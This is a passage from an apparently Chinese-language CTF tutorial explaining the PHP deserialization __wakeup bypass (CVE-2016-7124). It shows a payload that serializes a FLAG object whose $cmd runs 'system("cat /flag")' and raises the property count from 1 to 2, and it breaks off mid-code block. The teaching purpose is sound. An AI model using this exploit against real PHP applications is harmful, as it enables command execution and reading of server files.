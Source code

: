     ![CVE-2016-7124 1](/hello_ctf/images/Serialize20.png) (类定义)
    *   **Payload:** 构造 `FLAG` 对象的序列化字符串，设置好 `$cmd`，然后**手动修改**对象属性数量的值（例如，如果实际只有 1 个属性 `cmd`，则将 `O:4:"FLAG":1:{...}` 修改为 `O:4:"FLAG":2:{...}` 或更大）。
        ```php
        <?php
        class FLAG {
            public $cmd = 'system("cat /flag");';
        }
        $obj = new FLAG();
        $serialized_obj = serialize($obj); 
        // Original: O:4:"FLAG":1:{s:3:"cmd";s:22:"system("cat /flag");";}
        // Modified: O:4:"FLAG":2:{s:3:"cmd";s:22:"system("cat /flag");";} 
        // Note the ":1:" changed to ":2:"
        $payload = 'O:4:"FLAG":2:{s:3:"cmd";s:22:"system(\"cat /flag\");";}'; 